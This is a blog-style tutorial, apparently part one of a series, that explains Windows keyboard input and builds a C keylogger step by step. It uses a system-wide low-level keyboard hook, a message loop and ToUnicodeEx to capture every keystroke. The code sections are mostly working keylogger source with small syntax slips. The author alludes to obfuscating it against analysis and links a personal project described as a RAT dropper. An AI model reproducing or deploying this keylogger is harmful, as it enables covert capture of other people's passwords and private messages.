



One day i decided to sharpen my C skills and get to implementing a keylogger. But then i found myself lost in a rabbithole of MSDN docs, Stackoverflow threads and other forums dating to 2002 or something...
So i wrote this for whoever wants to learn more about how actually keylogging works so hopefully you won't find yourself reading a  22 year old post ;)

> Please note that some concepts have been simplified for the purpose of this keylogger implementation. This is done to focus on the core functionality and should not be considered a comprehensive treatment of the underlying principles. Ofcourse *this is for educational purposes only* blah blah.


So now thats that out of the way, ever thought how keyboard handles a key input anyways?
because thats what we will be talking about starting with...

## Scan Codes

Our journey starts with scan codes, you can think of a scan code as a unique identifier for the physical key on your keyboard set by the manufacturer however ever since usb happened its mostly been standardized.
scan codes are also layout independent and hardware dependent, but what's that mean?


Whenever you press on a key on your keyboard, a scan code is sent to the os.

 So lets say we pressed a in the qwerty layout and we got the scan code `0x1e` for example. then we switched the layout to azerty in the OS settings and pressed the same key physically we will get the same code `0x1e` even though its not interpreted as the same character anymore but its the same physical key on the keyboard independent of the layout.

 Scan codes are rarely used by applications though, instead virtual key codes are used as they're easier to deal with especially using the win32 api. now after pressing a key the scan code is generated then converted by windows to a virtual key code using the keyboard device driver which maps the scan code generated to it's equivalent virtual key code.

## Virtual Key Codes

Now virtual key codes on the other hand can be looked as as the software as they're higher level and handled by the os itself, in this case we are talking about windows. vk-codes are used by windows to identify keyboard keys independent of the language selected.

Let's go back to our example so we can grasp the difference, pressing a in the qwerty layout (en) will give us `vk_a` yet if we press the same key in azerty (fr) will give us `vk_q` as a different **virtual key code** but the same **scan code**


this is a simplified diagram to the keyboard input life cycle we covered so far. now the next step is to get the vk-codes before it reaches the application and we are going to cover that using hooks.

## Messages

As we are going to mostly record inputs that are sent to a running application and most likely it will have a window for a gui then we need to delve more in-depth and understand how those window-based application can receive and process the user keystrokes, so in another words the diagram above was a lie.

Well not all of it but when the keyboard device driver converts the scan code to vk-codes it's actually moved around windows as `messages`. messages are just already defined constants that represent that type of event that just occurred for example `#define VM_KEYDOWN 0x0100`. so for example we will see later on that we can check to see if the user pressed a key by checking if the `VM_KEYDOWN` message is posed to the application's thread message queue.

 Yet messages are not just limited to keystrokes they can be anything from clicks to touch screen-gestures and other user input methods. messages can be also generated from the os for example notifying discord that there is a new mic that just got plugged in or windows will be hibernating or sleeping.

Now that we understand how windows passed the input to running applications we can see the real diagram that i'm referencing from the [msdn](https://learn.microsoft.com/en-us/windows/win32/inputdev/about-keyboard-input)



Let's start from the begnning:

0. You have discord open and you're typing out a message.
1. A key is pressed on the keyboard.
2. The scan code of the key is sent to the os.
3. Keyboard device driver translates/maps that scan code to a vk-code that is found in the message.
4. The message is posted to the system message queue before the os can send the message to discord's thead queue.
5. The thread message loop is what fetches new message posted to discord's thread queue and passes it to windows procedure.

 ```C
    
    MSG msg;
    while(GetMessage(&msg,0,0,0)){ // While there are messages in the queue.

        TranslateMessage(&msg); // If key pressed is a char -> Add WM_CHAR message to the queue
        DispatchMessage(&msg); // Send the message to the discord's window procedure to handle it.
    }

```

6. The windows procedure is what handles the message sent to discord. So lets say discord's WndProc looks something like this:

 ```C
    // you don't have to define the WM_CHAR 0x0100 macro, it's already defined for you
    switch(msg){

    /*

    blah 
    blah 
    blah 
    blah

    */
   
   case VM_KEYDOWN: // or we can use the value 0x0100 directly ¯\_(ツ)_/¯
      //stuff
      break;
    }
```

Now that we have a solid idea what exactly we want to intercept, we will focus on how to intercept the message that is going to the applications and running our own window procedure function to log that input.

## Hooks

Hooks are a mechanism that allows us to intercept a certain event as it happens whether that is  for example a key-press or a mouse movement and once it is intercepted we can run our own window procedure and in this case it's called a `hook procedure`. The `WH_KEYBOARD_LL` will be the type of hook we will use for our use case. WH_KEYBOARD_LL is a low-level keyboard hook that allows us to call our hook procedure as a callback function using the message loop.

```C

// an example for how to install a hook
HHOOK hHook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, hInstance, 0);
```

> It is important to clarify why do we need a message loop, yet you can skip this part if you want to get into implementing and come back for it later...hopefully.
> To put it simply low-level hooks are installed on the same thread that calls the `SetWindowsHookEx()` (aka our program) and that is convient and easier to implement than [other type of hooks](https://learn.microsoft.com/en-us/windows/win32/winmsg/about-hooks#hook-types). This means that we need a way to let us know when the user has pressed a key (because that happens is on another thread) so we can call our hook procedure and this is why we need a message loop as it keeps us checking if there is any hook notifications posted to the thread's queue by the windows message system and then can dispatch the message to our hook procedure.

> If there is no message loop the hook notifications will never be posted on the thread queue, the message will never be passed to our hook procedure and our code will never be executed.

## Now, we hak

That was a lot to take in i know as i said a rabbithole ;) but now we can get to coding to connect those dots. First let's write down the things we need to code:

1. Setup a hook.
2. Message loop.
3. Code our hook procedure logic which is mostly just translating those virtual key codes into characters and saving them somewhere.

Ok let's start with the Hook.

```C

#include <stdio.h>
#include <Windows.h>

HHOOK hHook;

int main()
{
 start_keylogger();
}


void start_keylogger() {

 hHook = SetWindowsHookEx(WH_KEYBOARD_LL, Hookproc, 0, 0);

 }
}
```

So far there is nothing that we haven't covered already. we're setting up a lowlevel hook with Hookproc as our hook procedure that is used as a callback function. Lets implement the message loop first.

> Quick refresher.A callback function is literally just a function that is passed as a parameter to another function. We can name this function whatever we want. MSDN gives us an [example](https://learn.microsoft.com/en-us/windows/win32/winmsg/lowlevelkeyboardproc).

```C

BOOL start_keylogger() {

 hHook = SetWindowsHookEx(WH_KEYBOARD_LL, Hookproc, 0, 0);

 MSG msg; // You can initilize this if you want. MSG msg = {0};
 while (GetMessage(&msg, 0, 0, 0)) {
  TranslateMessage(&msg);
  DispatchMessageW(&msg);
 }
}
```

After that we add our hook proc and -for a sanity check- do a temporary logic that just displays the scan code and vk-code of whatever key we press.

```C

LRESULT CALLBACK Hookproc(int nCode, WPARAM wParam, LPARAM lParam)
{
   if (nCode < 0 )
  return CallNextHookEx(hHook, nCode, wParam, lParam);

    KBDLLHOOKSTRUCT* hookinfo = (KBDLLHOOKSTRUCT*) lParam;
 printf("Scan code is: %lu\n", hookinfo->scanCode);
 printf("Virtual key code is: %lu\n", hookinfo->vkCode); 
 printf("character is is: %c\n", (CHAR)hookinfo->vkCode); // will only work if the code maps to a character 

 CallNextHookEx(hHook,  nCode,  wParam,  lParam);
}
```

The [KBDLLHOOKSTRUCT](https://learn.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-kbdllhookstruct) is a struct that contain information about the keyboard event that we wanted to hook. the lparam in the hook proc function is a pointer to this struct. We can use this struct to access useful info about the keyboard event such as the VKcode and scanCode, however before we use it it's a good idea to check if there's any useful message to begin with. Doing that is very straight forward so i will just TLDR that shit.

nCode tells us if there is anything useful to process. We can check by checking if there is zero or more assigned to the nCode variable. If the value is less than zero we just call the next hook.[Docs](https://learn.microsoft.com/en-us/windows/win32/winmsg/lowlevelkeyboardproc#code-in)

If we try to run this code 2 weird things happen.



The hook proc is triggered twice for every key press. Windows treats the pressing and releasing a key as two separate events. We can modify our code to filter which messages we can process.

```C

LRESULT CALLBACK Hookproc(int nCode, WPARAM wParam, LPARAM lParam)
{
 if (nCode < 0 )
  return CallNextHookEx(hHook, nCode, wParam, lParam);

 hookinfo = (KBDLLHOOKSTRUCT*)lParam;

 switch (wParam)
 {
 case WM_KEYDOWN:

  printf("Scan code is: %lu\n", hookinfo->scanCode);
  printf("Virtual key code is: %lu\n", hookinfo->vkCode); 
  printf("character is is: %c\n", (CHAR)hookinfo->vkCode); // will only work if the code maps to a character 

  break;
 default:

  break;
 }

 CallNextHookEx(hHook, nCode, wParam, lParam);
}
```

The other thing is maps our VKcodes to the uppercase ASCII because VKcodes only represents the uppercase characters. We will take this into consideration while implementing the rest of the keylogger. [Full VKcode table](https://learn.microsoft.com/en-us/windows/win32/inputdev/virtual-key-codes)

Now let's do the actual mapping between VKcode to character. There are two ways you can go through this:

```C

LRESULT CALLBACK Hookproc(int nCode, WPARAM wParam, LPARAM lParam)
{
 if (nCode < 0)
  return CallNextHookEx(hHook, nCode, wParam, lPara`m`);

 WCHAR buffer[2] = { 0 };
 BYTE lpKeyState [256];
 hookinfo = (KBDLLHOOKSTRUCT*)lParam;

 UINT vkCode = hookinfo->vkCode;
 UINT scanCode = hookinfo->scanCode;

 switch (wParam)
 {
  case WM_KEYDOWN:
  case WM_SYSKEYDOWN:

  GetKeyboardState(lpKeyState);
  hklLayout = GetKeyboardLayout(0);
  int rezz = ToUnicodeEx(vkCode, scanCode, lpKeyState, buffer, sizeof(buffer)/sizeof(WCHAR), 0, hklLayout);

  if (rezz) 
   printf("%c", buffer[0]);

  break;
 default:

  break;
 }

 CallNextHookEx(hHook, nCode, wParam, lParam);
}
```

This is the final version of our Hookproc for part 1 of this blog post . I don't want this block to get too long so let's go over what we did. The highlight of this function is `ToUnicodeEx()` which translates our input to unicode characters which we can save into a file later. This function takes VKcodes, scanCode, the state of each key of the keyboard, a buffer to output the translated unicode character, the size of that buffer and finally the current layout of the keyboard.

This is a basic implementation of what we learned so far, we can further add to this monitoring the shift for special characters (Shift + anything basically) and caps-lock toggle. We can do it in a way that's harder to anaylze and reverse (definitely not just spaghetti code) engineer like this [project](https://github.com/dievoom-png/RubberRat/blob/13b72a11771cb9139da03a7efeaca6b0fef6a66f/repos/Dropper/Dropper.c#L341) i finished a while ago. You can definitely make your own custom library to parse the keys yourself (foreshadowing? Maybe?).

But in the next part we will look on how we can make this cleaner if we don't want to obfuscate ;)

Thanks for Reading and please do reach out if you got any question or feedback! Always appreciated! Happy haking
